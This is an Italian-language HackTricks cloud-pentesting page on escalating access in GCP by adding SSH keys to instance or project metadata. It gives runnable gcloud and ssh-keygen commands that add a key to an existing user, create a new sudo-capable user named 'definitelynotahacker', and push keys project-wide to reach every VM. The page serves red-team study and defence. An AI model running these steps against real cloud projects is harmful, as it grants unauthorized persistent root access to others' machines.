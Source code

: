 # GCP - Aggiungere Metadati SSH Personalizzati

<details>

<summary><strong>Impara l'hacking AWS da zero a esperto con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se vuoi vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**La Famiglia PEASS**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR a** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos di github.

</details>

## Modifica dei metadati <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

La modifica dei metadati su un'istanza potrebbe comportare **significativi rischi per la sicurezza se un attaccante acquisisce le autorizzazioni necessarie**.

### **Incorporazione delle Chiavi SSH nei Metadati Personalizzati**

Su GCP, i **sistemi Linux** eseguono spesso script dall'[Ambiente Guest Linux Python per Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Un componente critico di questo è il [daemon degli account](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), progettato per **controllare regolarmente** il punto finale dei metadati dell'istanza per **aggiornamenti delle chiavi pubbliche SSH autorizzate**.

Pertanto, se un attaccante può modificare i metadati personalizzati, potrebbe far sì che il daemon trovi una nuova chiave pubblica, che verrà elaborata e **integrata nel sistema locale**. La chiave verrà aggiunta nel file `~/.ssh/authorized_keys` di un **utente esistente o potenzialmente creando un nuovo utente con privilegi `sudo`**, a seconda del formato della chiave. E l'attaccante sarà in grado di compromettere l'host.

### **Aggiungere una chiave SSH a un utente privilegiato esistente**

1. **Esaminare le Chiavi SSH Esistenti sull'Istanza:**
- Esegui il comando per descrivere l'istanza e i suoi metadati per individuare le chiavi SSH esistenti. La sezione rilevante nell'output sarà sotto `metadata`, in particolare la chiave `ssh-keys`.
```bash
gcloud compute instances describe [ISTANZA] --zone [ZONA]
```
- Presta attenzione al formato delle chiavi SSH: il nome utente precede la chiave, separato da due punti.

2. **Prepara un File di Testo per i Metadati delle Chiavi SSH:**
- Salva i dettagli dei nomi utente e delle relative chiavi SSH in un file di testo chiamato `meta.txt`. Questo è essenziale per preservare le chiavi esistenti mentre se ne aggiungono di nuove.

3. **Genera una Nuova Chiave SSH per l'Utente Target (`alice` in questo esempio):**
- Usa il comando `ssh-keygen` per generare una nuova chiave SSH, assicurandoti che il campo commento (`-C`) corrisponda al nome utente target.
```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
- Aggiungi la nuova chiave pubblica a `meta.txt`, imitando il formato trovato nei metadati dell'istanza.

4. **Aggiorna i Metadati delle Chiavi SSH dell'Istanza:**
- Applica i metadati delle chiavi SSH aggiornati all'istanza usando il comando `gcloud compute instances add-metadata`.
```bash
gcloud compute instances add-metadata [ISTANZA] --metadata-from-file ssh-keys=meta.txt
```

5. **Accedi all'Istanza Utilizzando la Nuova Chiave SSH:**
- Connettiti all'istanza con SSH utilizzando la nuova chiave, accedendo alla shell nel contesto dell'utente target (`alice` in questo esempio).
```bash
ssh -i ./key alice@localhost
sudo id
```

### **Creare un nuovo utente privilegiato e aggiungere una chiave SSH**

Se non viene trovato alcun utente interessante, è possibile crearne uno nuovo a cui verranno dati privilegi `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
### Chiavi SSH a livello di progetto <a href="#sshing-around" id="sshing-around"></a>

È possibile ampliare la portata dell'accesso SSH a più Macchine Virtuali (VM) in un ambiente cloud **applicando chiavi SSH a livello di progetto**. Questo approccio consente l'accesso SSH a qualsiasi istanza all'interno del progetto che non abbia esplicitamente bloccato le chiavi SSH a livello di progetto. Ecco una guida riassuntiva:

1. **Applica le Chiavi SSH a Livello di Progetto:**
- Utilizza il comando `gcloud compute project-info add-metadata` per aggiungere le chiavi SSH da `meta.txt` ai metadati del progetto. Questa azione garantisce che le chiavi SSH siano riconosciute su tutte le VM nel progetto, a meno che una VM abbia abilitato l'opzione "Blocca le chiavi SSH a livello di progetto".
```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```

2. **Accedi alle Istanze Utilizzando le Chiavi a Livello di Progetto:**
- Con le chiavi SSH a livello di progetto in posizione, puoi accedere via SSH a qualsiasi istanza all'interno del progetto. Le istanze che non bloccano le chiavi a livello di progetto accetteranno la chiave SSH, concedendo l'accesso.
- Un metodo diretto per accedere via SSH a un'istanza è utilizzare il comando `gcloud compute ssh [ISTANZA]`. Questo comando utilizza il tuo nome utente attuale e le chiavi SSH impostate a livello di progetto per tentare l'accesso.


# Riferimenti
* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

<details>

<summary><strong>Impara l'hacking AWS da zero a eroe con</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Altri modi per supportare HackTricks:

* Se desideri vedere la tua **azienda pubblicizzata in HackTricks** o **scaricare HackTricks in PDF** Controlla i [**PIANI DI ABBONAMENTO**](https://github.com/sponsors/carlospolop)!
* Ottieni il [**merchandising ufficiale PEASS & HackTricks**](https://peass.creator-spring.com)
* Scopri [**The PEASS Family**](https://opensea.io/collection/the-peass-family), la nostra collezione di [**NFT esclusivi**](https://opensea.io/collection/the-peass-family)
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Condividi i tuoi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository di Github.

</details>
